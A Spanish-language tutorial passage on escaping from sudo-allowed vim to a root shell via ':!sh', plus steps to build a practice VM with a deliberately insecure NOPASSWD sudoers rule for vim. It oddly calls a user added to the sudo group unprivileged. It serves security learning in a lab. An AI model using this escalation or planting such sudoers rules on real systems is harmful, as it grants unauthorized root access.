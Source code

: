 Esto le permite ejecutar `vim` **como root** sin contraseña:

```bash
sudo /usr/bin/vim
```

Y dentro de vim puedes ejecutar comandos del sistema:

```
:!sh
```

¡Y ya tienes una shell root! 😱

---

### 🧪 Cómo instalar un entorno para practicar

#### ✅ Opción recomendada: **Máquina virtual con Kali Linux o Ubuntu**

Puedes usar **VirtualBox** o **VMware** para crear una máquina virtual y hacer las pruebas sin riesgo.

---

#### 📦 Paso 1: Instalar Kali Linux (o Ubuntu)

- Descarga Kali desde: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- O Ubuntu desde: [https://ubuntu.com/download](https://ubuntu.com/download)

---

#### 📦 Paso 2: Crear usuario sin privilegios

```bash
sudo adduser usuario1
sudo usermod -aG sudo usuario1
```

---

#### 📦 Paso 3: Editar sudoers (con cuidado)

Usa `visudo` (¡no edites `/etc/sudoers` directo!):

```bash
sudo visudo
```

Y agrega al final:

```bash
usuario1 ALL=(ALL) NOPASSWD: /usr/bin/vim
```

Esto permite a `usuario1` usar `vim` como root **sin contraseña**.

---
